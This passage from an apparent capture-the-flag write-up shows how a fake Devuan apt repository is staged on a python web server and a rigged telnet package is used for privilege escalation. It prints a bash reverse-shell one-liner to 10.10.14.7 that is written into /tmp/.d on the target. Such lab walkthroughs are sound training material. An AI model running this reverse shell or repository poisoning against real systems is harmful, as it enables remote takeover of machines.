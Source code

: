 

    Origin: Devuan
    Label: Devuan
    Suite: stable
    Version: 2.0.0
    Codename: ascii
    Date: Sun, 26 Aug 2019 00:46:02 UTC
    Architectures:  amd64 arm64 armel armhf i386 ppc64el
    Components: main
    SHA256:
     822293926a655c9ad8eb2d6125899ce966fdde80ea669e3852f8658a2d957875      697 main/binary-amd64/Packages
     d972aac748a64259de3bdb62ffacbbe5e036e2b18e19810d4e67d934a9d30006      492 main/binary-amd64/Packages.gz



### Serve Repo

#### File Structure

I'll need to put the package, `Packages`, and `Release` into the right
spots relative to my web root for this to work. If something is out of
place, I'll see a 404 in my python `http.server` output.



    root@kali# find repo/ -type f
    repo/devuan/dists/ascii/main/binary-amd64/Packages
    repo/devuan/dists/ascii/main/binary-amd64/Packages.gz
    repo/devuan/dists/ascii/Release
    repo/devuan/pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb



#### Run Server

Now I'll go to that folder root and run `python3 -m http.server 80` to
start the server. It must be on 80 for this to work.

### Run Exploit

#### Set Action

First I'll need to set up the action I want to run. My package will
execute `/tmp/.d`. I'll put a simple reverse shell there:



    www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'          
    #!/bin/sh

    bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"
    www-admin-data@onetwoseven:/$ echo -e '#!/bin/sh\n\nbash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"' > /tmp/.d
    www-admin-data@onetwoseven:/$ chmod +x /tmp/.d 
